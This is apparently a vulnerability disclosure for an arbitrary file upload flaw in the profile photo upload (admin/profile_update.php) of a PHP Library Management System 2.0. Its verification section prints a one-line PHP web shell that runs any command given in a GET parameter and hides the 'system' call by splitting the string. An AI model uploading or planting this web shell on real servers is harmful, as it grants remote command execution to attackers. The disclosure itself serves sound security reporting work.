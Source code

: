 **Title:** Library Management System In PHP With Source Code (Ver.2.0) admin\profile_update.php arbitrary file upload

**Vendor:** Fabian Ros [Library Management System In PHP With Source Code (Ver.2.0) - Source Code & Projects](https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/)

**Affected Product Version**: 2.0

**Vulnerability Type**: Arbitrary file upload

**Audit:**

`photo` is uploaded without sanitizing 

![image-20250702161013471](./images/image-20250702161013471.png)

**Verify**

Payload: 

```php 
<?php $a = 'sys'.'tem'; $a($_GET['pas']); ?>
```



successfully uploaded

![image-20250702161439980](./images/image-20250702161439980.png)

![image-20250702161855982](./images/image-20250702161855982.png)